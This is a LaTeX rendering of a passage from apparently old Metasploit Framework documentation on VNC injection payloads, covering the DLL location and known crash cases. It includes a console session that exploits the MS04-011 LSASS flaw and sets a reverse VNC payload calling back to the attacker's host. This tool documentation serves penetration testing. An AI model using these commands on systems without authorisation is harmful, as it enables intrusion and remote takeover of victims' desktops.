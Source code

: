 \documentclass{report}
\begin{document}
\par
If there is no interactive user logged into the system or the screen has been
locked, the command shell can be used to launch explorer.exe anyways. This can
result in some very confused users when the logon screen also has a start menu.
If the interactive desktop is changed, either through someone logging into the
system or locking the screen, the VNC server will disconnect the client. Future
versions may attempt to follow a desktop switch. 

\par
To use the VNC injection payloads, specify the full path to the VNC server as
the value of the \texttt{DLL} option. The VNC server can be found in the data
subdirectory of the Framework installation and is named 'vncdll.dll'. The source
code of the DLL can be found in the src/shellcode/win32/dllinject/vncinject
subdirectory of the Framework installation. 

\par
As of the 2.4 release, there are a few situations where the VNC inject payload
will simply not work. These problems are often cause by strange execution
environments or other issues related to a specific exploit or injection method.
These issues will be addressed as time permits:
\begin{itemize}
	\item The cabrightstor\_uniagent exploit will cause the VNC payload to
	crash, possibly due to a strange heap state.
	\item The executables generated by \texttt{msfpayload}'s 'X' option are not
	will cause the VNC payload to crash after spawning the command shell.
\end{itemize}

\begin{verbatim}
msf > use lsass_ms04_011
msf lsass_ms04_011 > set RHOST some.vuln.host
RHOST -> some.vuln.host
msf lsass_ms04_011 > set PAYLOAD win32_reverse_vncinject
PAYLOAD -> win32_reverse_vncinject
msf lsass_ms04_011(win32_reverse_vncinject) > set LHOST your.own.ip
LHOST -> your.own.ip
msf lsass_ms04_011(win32_reverse_vncinject) > set LPORT 4321
LPORT -> 4321
msf lsass_ms04_011(win32_reverse_vncinject) > exploit
\end{verbatim}

If the "vncviewer" application is in your path and the AUTOVNC option has been
set (it is by default), the Framework will automatically open the VNC desktop.
If you would like to connect to the desktop manually, \texttt{set AUTOVNC 0}, then use
vncviewer to connect to 127.0.0.1 on port 5900. 
\end{document}
